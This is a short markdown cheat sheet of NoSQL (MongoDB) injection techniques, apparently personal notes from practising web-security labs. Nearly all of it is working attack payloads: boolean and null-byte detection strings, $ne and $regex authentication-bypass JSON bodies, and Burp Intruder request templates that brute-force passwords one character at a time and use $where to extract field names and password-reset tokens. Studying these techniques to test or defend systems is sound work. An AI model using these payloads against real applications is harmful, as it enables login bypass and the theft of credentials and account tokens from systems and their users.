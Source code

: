 # No SQL

## Detecting:

> Make sure to `CTRL+U` if used in repeater...
> Does NOT always work, e.g.: for logins...

* True: `Gifts' && 0 && 'x`
* False: `Gifts' && 1 && 'x`
* Always true: `Gifts'||1||'x`

* Null character (MongoDB): `Gifts'\u0000` -> `this.category == 'Gigts'\u0000' && this.released == 1`
    * This will terminate the query after the Null, and prevent the aditional restriction.

## Operators:

* `$Where`
* `$Ne`
* `$Ni`
* `$Regex`

## Examples: 

* `?username=wiener` -> `username[$ne]=invalid`
* `{"username": "wiener"}` -> `{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}`
* `{"username":{"$regex":"admin.*"},"password":{"$ne":""}}`
* Identify password length: `administrator' && this.password.length < 30 || 'a'=='b`
    * `GET /user/lookup?user=administrator'+%26%26+this.password.length+<+30+||+'a'%3d%3d'b HTTP/2`
* Bruteforce Password: (Cluster Bomb)`GET /user/lookup?user=administrator' && this.password[§0§]+=='§a§' || 'a'=='b`
    * `GET /user/lookup?user=administrator'+%26%26+this.password[0]+=='n'+||+'a'%3d%3d'b`
* Test if operator injection: 
    * False: `{"username":"wiener","password":"peter", "$where":"0"}`
    * True: `{"username":"wiener","password":"peter", "$where":"1"}`
    * If you able to inject operator, you can extract field names: `"$where":"Object.keys(this)[0].match('^.{0}a.*')"`
        * `{"username":"carlos","password":{"$ne":"invalid"},"$where":"Object.keys(this)[2].match('^.{§1§}§a§.*')"}`
        * Fuzz the field name: `{"username":"carlos","password":{"$ne": ""}, "$where":"this.pwResetTkn.match('^.{§§}§§.*')"}`
